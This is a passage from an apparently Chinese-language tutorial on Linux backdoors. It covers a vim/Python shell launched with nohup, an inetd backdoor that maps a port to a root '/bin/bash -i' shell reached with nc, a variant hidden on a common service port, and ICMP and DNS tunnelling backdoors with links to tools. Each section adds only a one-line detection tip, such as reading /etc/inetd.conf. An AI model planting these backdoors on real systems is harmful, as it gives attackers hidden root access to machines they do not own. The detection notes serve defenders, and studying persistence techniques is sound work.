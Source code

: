 攻击机nc连接过去就可以了:



`nohup vim -E -c "pyfile dir.py" nc 127.0.0.1 11`

### 0x08 inetd服务后门

inetd是一个监听外部网络请求(就是一个socket)的系统守护进程，默认情况下为13端口。当inetd接收到一个外部请求后，它会根据这个请求到自己的配置文件中去找到实际处理它的程序，然后再把接收到的这个socket交给那个程序去处理。所以，如果我们已经在目标系统的inetd配置文件中配置好，那么来自外部的某个socket是要执行一个可交互的shell，就获取了一个后门。



```
#修改/etc/inetd.conf 
$vim /etc/inetd.conf  

#discard stream tcp nowait root internal  
#discard dgram udp wait root internal  daytime stream tcp nowait root /bin/bash bash -i  #开启inetd $inetd  

#nc连接 nc -vv 192.168.2.11 13
```



```
#可以配合suid后门，修改/etc/services文件： suidshell 6666/tcp 
#然后修改/etc/inetd.conf suidshell stream tcp nowait root /bin/bash bash -i 
#可以修改成一些常见的端口，以实现隐藏
```

检测：查看配置文件即可

```
cat /etc/inetd.conf
```



### 0x09 协议后门

在一些访问控制做的比较严格的环境中，由内到外的TCP流量会被阻断掉。但是对于UDP(DNS、ICMP)相关流量通常不会拦截。

#### ICMP

主要原理就是利用ICMP中可控的data字段进行数据传输，具体原理请参考: [https://zhuanlan.zhihu.com/p/41154036](https://zhuanlan.zhihu.com/p/41154036)

开源工具：ICMP后门项目地址：[https://github.com/andreafabrizi/prism](https://github.com/andreafabrizi/prism)

#### DNS

在大多数的网络里环境中IPS/IDS或者硬件防火墙都不会监控和过滤DNS流量。主要原理就是将后门载荷隐藏在拥有PTR记录和A记录的DNS域中（也可以利用AAAA记录和IPv6地址传输后门），具体请参考：[通过DNS传输后门来绕过杀软](https://www.anquanke.com/post/id/85431)

开源工具：DNS后门项目地址：[https://github.com/DamonMohammadbagher/NativePayload_DNS](https://github.com/DamonMohammadbagher/NativePayload_DNS)

协议后门检测：对于DNS/ICMP这种协议后门，直接查看网络连接即可，因为在使用过程中会产生大量的网络连接
